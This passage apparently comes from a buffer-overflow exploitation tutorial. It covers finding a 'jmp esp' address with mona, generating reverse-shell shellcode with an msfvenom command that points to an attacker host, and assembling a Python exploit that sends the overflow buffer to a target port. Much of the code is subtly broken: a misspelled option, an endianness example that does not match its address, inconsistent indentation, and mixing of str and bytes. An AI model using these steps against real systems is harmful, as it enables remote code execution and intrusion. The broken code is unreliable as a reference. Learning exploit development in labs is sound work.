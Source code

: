 Or:

```bash
!mona find -s 'jmp esp' -type instr -cm aslr=flase,rebase=false,nx=false -cpb "\x00\<bad_chars>..\..\etc"
```
Upon determining the address, we must convert it to Little Endian formatting by writing it in reverse (i.e. 0x62011af becomes \xaf\x11\x50\x62). We can then update the return (`retn`) value in our proof of concept to reflect the newly discovered address.

```python
retn = "<address_from_jmpesp_command>"
``` 

### Generating Shellcode 
The following `msfvenom` command is exactly what I used when generating all of my shellcode for testing Windows x86 buffer overflows:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -b '\x00\<bad_chars>..\..\etc' EXITFUN=thread -f python -v payload -a x86
```
<p><br></p>
### Final Exploit 
Here's how everything should look once we're finished (NOPs were added for shellcode space):
```python
ip = "<IP>" 
port = <PORT> 
prefix = "<buffer_string>" 
offset = <offset_length> 
overflow = "A" * offset 
retn = "return_address" 
padding = "\x90" * 16 # added NOPs to create space for payload. This might differ for each one, so try anything from * 7 all the way to * 25 :)
payload = b"" 
payload += b"\xd9\xcd\xd9\x74\x24\xf4\x5d\x29\xc9\xb1\x52\..." 
payload += ...
...
...
postfix = "" 

buffer = prefix + overflow + retn + padding + payload + postfix 
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 

try: 
    s.connect((ip, port)) 
	print("Sending evil buffer...") 
	s.send(buffer + "\r\n") 
    print("Done!") 
except: 
    print("Could not connect.")
```
